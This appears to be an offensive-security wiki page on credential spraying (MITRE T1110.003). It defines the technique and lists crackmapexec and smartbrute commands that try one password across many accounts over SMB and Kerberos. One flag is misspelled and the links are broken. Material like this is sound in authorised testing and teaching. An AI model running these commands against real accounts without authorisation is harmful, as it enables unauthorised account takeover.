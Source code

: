 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1110.003
---
```


# Spraying

Credential spraying is a technique that attackers use to try a few passwords (or keys) against a set of usernames instead of a single one. This technique is just [credential guessing](broken-reference) but "sprayed" (i.e. against multiple accounts) and tools that can do [credential guessing](broken-reference) can usually do spraying.

```bash
# crackmapexec example
cme smb target_ip -d domain.local -u users.txt -p "password" --no-bruteforce --continue-on-succes

# smartbrute example (dynamic user list)
smartbrute smart -bp "password" kerberos -d "$DOMAIN" -u "$USER" -p "$PASSWORD" --kdc-ip "$KDC" kerberos

# smartbrute example (static users list)
smartbrute brute -bU users.txt -bp "password" kerberos --kdc-ip "$KDC" 
```

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}



